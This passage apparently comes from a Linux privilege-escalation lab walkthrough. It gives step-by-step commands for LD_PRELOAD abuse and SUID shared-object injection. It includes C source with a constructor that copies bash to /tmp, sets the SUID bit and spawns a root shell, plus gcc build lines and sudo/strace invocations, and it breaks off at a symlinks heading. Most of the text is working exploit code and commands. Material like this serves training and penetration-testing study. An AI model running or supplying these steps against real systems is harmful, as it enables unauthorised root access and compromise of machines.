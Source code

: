 2. Save the file as x.c

3. In command prompt type:

**gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles**

4. In command prompt type:

**sudo LD_PRELOAD=/tmp/x.so apache2**

5. In command prompt type: **id**

#  SUID (Shared Object Injection)

### Detection

1. In command prompt type: **find / -type f -perm -04000 -ls 2>/dev/null**

2. From the output, make note of all the SUID binaries.

3. In command line type:

**strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"**

4. From the output, notice that a .so file is missing from a writable directory.

### Exploitation

5. In command prompt type: **mkdir /home/user/.config**

6. In command prompt type: **cd /home/user/.config**

7. Open a text editor and type:

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

8. Save the file as **libcalc.c**

9. In command prompt type:

**gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c**

10. In command prompt type: **/usr/local/bin/suid-so**

11. In command prompt type: **id**

# SUID (Symlinks)                            

### Detection
